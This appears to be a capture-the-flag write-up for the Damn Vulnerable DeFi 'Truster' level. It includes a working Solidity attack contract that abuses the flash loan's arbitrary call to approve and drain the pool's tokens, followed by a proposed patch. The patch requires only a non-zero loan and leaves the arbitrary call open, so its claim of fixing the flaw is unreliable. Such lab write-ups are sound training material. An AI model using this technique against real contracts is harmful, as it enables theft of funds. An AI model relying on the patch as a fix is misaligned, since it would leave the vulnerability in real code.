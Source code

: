 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Truster
---
```


## Description
More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

Currently the pool has 1 million DVT tokens in balance. And you have nothing.

But don't worry, you might be able to take them all from the pool. In a single transaction.

## Solution
How might we approach this one? The `balanceAfter >= balanceBefore` check looks solid,
which means no matter what we'll have to return the tokens...

Let's turn our attention to `target.functionCall(data)` next. Notice that
both `target` and `data` arbitrary. Combine that with our knowledge of the ERC20
interface, and we can call the `approve` function to give the attacker permission to transfer
tokens on behalf of the Pool.

But wait, what about returning the tokens? We don't need to if we flashloan an amount of 0.

```
contract TrusterAttack {
    function attack(
        address trusterLenderPool,
        address damnValuableToken,
        uint256 amount
    ) external {
        bytes memory targetData = abi.encodeWithSelector(IERC20(damnValuableToken).approve.selector, address(this), amount);
        TrusterLenderPool(trusterLenderPool).flashLoan(0, address(this), damnValuableToken, targetData);
        IERC20(damnValuableToken).transferFrom(trusterLenderPool, msg.sender, amount);
    }
}
```

## Patched Contract
We can prevent this exploit if we revert when the borrow amout is 0. By enforcing a non-zero
loan amount, our `target.functionCall(data)` MUST return the tokens. Which obviously means we can't just call `approve` on the DVT contract. 

The fix is a one liner `require(borrowAmount > 0, "0 amount");`

```
contract TrusterLenderPoolV2 is ReentrancyGuard {

    using Address for address;

    IERC20 public immutable damnValuableToken;

    constructor (address tokenAddress) {
        damnValuableToken = IERC20(tokenAddress);
    }

    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        require(borrowAmount > 0, "0 amount");
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
}
```

You can verify yourself that the exploit no longer works with `TrusterLenderPoolV2`!